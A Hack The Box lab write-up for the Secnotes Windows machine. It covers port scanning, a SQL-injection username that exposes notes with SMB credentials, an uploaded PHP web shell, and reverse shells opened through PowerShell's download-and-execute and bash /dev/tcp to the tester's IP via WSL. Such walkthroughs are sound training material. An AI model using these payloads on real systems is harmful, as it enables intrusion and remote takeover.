# Hack The Box: Secnotes machine write-up

This machine was a really challenging one, for it was based on a second order SQL injection which led to some SMB credentials. Then, we could upload a php script to get RCE, which in turn was used as means to get a proper reverse shell. Being in a windows environment I felt like a fish out of water but finally managed to discover that the system had a new feature of Windows 10 which lets the user install linux distros and the bash shell. With that I did another reverse shell and got into a linux environment on which I was root (with no flag, though). However, I find SMB creds which let me authenticate and retrieve the flag.

Let's dig in! The machine IP is 10.10.10.97.

### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```
nmap -sV -sC -oA nmap/initial secnote
```

```sh
# Nmap 7.01 scan initiated Thu Oct  4 18:02:51 2018 as: nmap -sV -sC -oA nmap/initial secnotes
Nmap scan report for secnotes (10.10.10.97)
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Microsoft Windows 10 microsoft-ds
Service Info: OSs: Windows, Windows 10; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_10

Host script results:
| smb-os-discovery:
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   NetBIOS computer name: SECNOTES
|   Workgroup: HTB
|_  System time: 2018-10-04T09:04:11-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  4 18:04:40 2018 -- 1 IP address (1 host up) scanned in 109.60 seconds
```

So we find that there is a web server listening on the default port 80 and that our host has SMB protocol enabled. We see that there is a website to store notes:

*Webpage*







Interesting things to notice were:

* Looks like the user is called ``tyler`` (from the yellow message on the home page).
* We can do XSS but it is not useful.

I spent too much time trying to achieve something with XSS but unsuccessfully. I tried as well to enumerate files on the webserver, but found nothing with dirb. Then, I decided to run another nmap scan, this time a full one:

```
nmap -v -sV -sS -p0-65535 -T4 -oA nmap/second secnotes
```

```sh
# Nmap 7.01 scan initiated Fri Oct  5 12:47:32 2018 as: nmap -v -sV -sS -p0-65535 -T4 -oA nmap/second secnotes
Increasing send delay for 10.10.10.97 from 0 to 5 due to 207 out of 517 dropped probes since last increase.
Increasing send delay for 10.10.10.97 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for secnotes (10.10.10.97)
Host is up (0.036s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds Microsoft Windows 10 microsoft-ds
8808/tcp open  http         Microsoft IIS httpd 10.0
Service Info: OSs: Windows, Windows 10; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_10

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  5 18:38:42 2018 -- 1 IP address (1 host up) scanned in 21070.27 seconds
```

Something interesting!! Too fast I guess... for it is the Internet Information Services (IIS) simple static webpage that contains nothing...

*IIS page*



I was frustrated, so headed to the forums looking for a nudge. Someone mentioned something about Nightmare, which was a previous HTB machine of which I had seen Ippsec's video. That's when I got it! There had to be some kind of SQL injection!

### Exploiting the authentication service

I decided to create a user called ``o' OR 1=1;-- -`` and got access to every note!

*Home page resulting from SQL bypass (contains all notes)*



One immediately stood out as it contained some credentials for the user ``tyler`` (our hunch is confirmed, he is the user):

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

We can now log in as user ``tyler`` to the web app but find out that there are no more notes:

*Logging in as tyler*



### Getting user

It took me a long time to realise where the credentials fitted in, but I finally figured out that they were meant to be used to log in through SMB.

Once I log in I find there are three directories, of which I can only access ``new-site`` with my credentials.

*Directories available in SMB*



*Contents of new-site directory*



I didn't know what to do, and so after a while a php file magically appeared, I guess it was someone trying to root the box as well. That's what made realise that maybe I could access these files from port 8808. And so I uploaded the following php script that lets me pass commands to the machine and get the output:

*Content of test.php*

```php
<?php
header('Content-Type: text/plain');
$cmd=$_GET['cmd'];

$output = passthru($cmd);
echo $output;
?>
```

And it works!

*Getting RCE through the php file*





Now in order to get user we just need to navigate the system and get the hash. One thing to keep in mind is that if you use *curl* like me you need to use URL encoding, otherwise it won't work. I finally got user.txt by executing the following:

```
curl http://secnotes:8808/test.php?cmd=more+%5cUsers%5ctyler%5cDesktop%5cuser.txt
```

### Privilege escalation (administrator)

I started doing manual enumeration and quickly found out a directory in the root directory called ``\distros``, which contained Ubuntu. I thought it was strange and googled for a while until I found out that there is a new feature in Windows 10 which lets you have a Linux subsystem inside your windows machine. It is called *Windows Subsystem for Linux (WSL)*, you can find mor information [here](https://blogs.msdn.microsoft.com/commandline/2017/10/11/whats-new-in-wsl-in-windows-10-fall-creators-update/).

I also found out that *bash* can be installed as well and commands can be run with the following:

```console
.\bash.exe -c "command"
```

I looked for it and indeed found out there was a bash executable in the ``\Windows\System32`` directory. However, when I tried to execute any command I wouldn't get any output. I really needed to get a proper shell.

#### Reverse shell

After a lot of php reverse shells which resulted in failed attempts I decided to try with PowerShell ones (``Invoke-PowerShellTcp.ps1``).

So the thing I did was the following.

1. Upload a php script that contains PowerShell code.
2. With that PowerShell code make a request to my server to get the PowerShell reverse shell.
3. Launch the PowerShell once it is in the system.
4. Listen on another port with netcat for an incoming connection.

The PHP code was:

```php
<?php system("powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.13.151:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.13.151 -Port 1234"); ?>
```

For that I needed to set up a python server to serve the reverse shell, make a curl request to execute the PHP script and then listen with netcat.

Guess what? It worked!

Now I can run the executable and get output back!

*Bash.exe*



Now seeing I was root I didn't want to enumerate the whole subfilesystem with that command, so I decided to make yet another reverse shell. I ran the following command and listened with netcat on the same port.

```console
.\bash.exe -c "bash -i >& /dev/tcp/10.10.13.151/8080 0>&1"
```

*Successful reverse shell to linux subfilesystem*



I looked at the contents of ``.bash_history`` and they turned out to be the key to everything, for there were some credentials:

```console
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
```

With these credentials we can access the other directories through SMB!

I used ``administrator:u6!4ZwgwOM#^OBf#Nwnh`` and got in to the ``C$`` directory. From there I just needed to go to ``\Users\Administrator\root.txt`` to get the hash.

*Getting the root hash*





---

Definitely the best machine I've rooted so far! I had so much fun rooting it!

---

*Diego Bernal Adelantado*
